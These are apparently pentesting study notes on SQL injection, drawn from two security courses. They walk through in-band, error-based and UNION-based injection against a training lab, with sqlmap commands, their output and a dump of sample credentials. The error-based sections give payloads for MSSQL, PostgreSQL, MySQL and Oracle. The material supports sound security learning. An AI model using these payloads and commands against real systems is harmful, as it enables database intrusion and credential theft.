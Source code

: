 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# In Band

{% hint style="info" %}
**In-Band SQLi** occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.
{% endhint %}

## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_usernameParam.png" alt=""><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_intruder.png" alt=""><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](../../../../tools/web/sqlmap.md).

{% tabs %}
{% tab title="Basic Info" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```
{% endcode %}
{% endtab %}

{% tab title="Current DB" %}
```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```
{% endtab %}

{% tab title="Tables" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```
{% endtab %}

{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Error-Based

{% hint style="info" %}
**Error-based SQLi** occurs when the attacker inserts SQL commands to deliberately generate database errors, which can used to expose database details, such as table and column names, allowing the attacker to extract sensitive information.
{% endhint %}

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

On way of making a database to return verbose error messages, which often include its version, is by forcing erroneous data type conversions (Figure 3).

```sql
// MSSQL and PostgreSQL payload
cast(@@version as integer)
```

<figure><img src="../../../../.gitbook/assets/web_sqli_error_based_1.png" alt=""><figcaption><p>Figure 3: Forcing a verbose error message disclosing the database's version.</p></figcaption></figure>

MySQL returns a `null` value instead of throwing an error, so its XML functions need to be used: `ExtractValue()` and `UpdateXML()`. The goal while using the former is to submit an invalid XPath expression. In this case, the `>` is used because it is a delimiter in XML and cannot be part of a valid XML node.

```sql
// MySQL payload
extractvalue('',concat('>',version()))
```

For Oracle databases, the syntax is becoming more complicated and a sub-query along with the double pipe operator (`||`) for concatenation needs to be used.

```sql
to_char(
  dbms_xmlgen.getxml(
    'select "'||
      (select substr(banner,0,30) from v$version where rownum=1)
    ||'" from sys.dual'
  )
) 
```

## UNION-Based

{% hint style="info" %}
A **UNION SQLi** occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.
{% endhint %}

When using a `UNION` two conditions must be met:

1. The invididual queries must return the same number of columns.
2. The data types in each column must be compatible between the individual queries.

As a result, launching a successful `UNION` attack requires us to answer:

1. How many columns are returned from the original query?
2. Which columns are suitable to hold the results from the injected query?

We can enumerate the column number by incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><img src="../../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><img src="../../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

After finding the number of columns returned, we need to exfiltrate data which is usually in text form. As a result, we must enumerate which column in the original query can hold text data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><img src="../../../../.gitbook/assets/lab2_datatype_pos (1).png" alt=""><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>
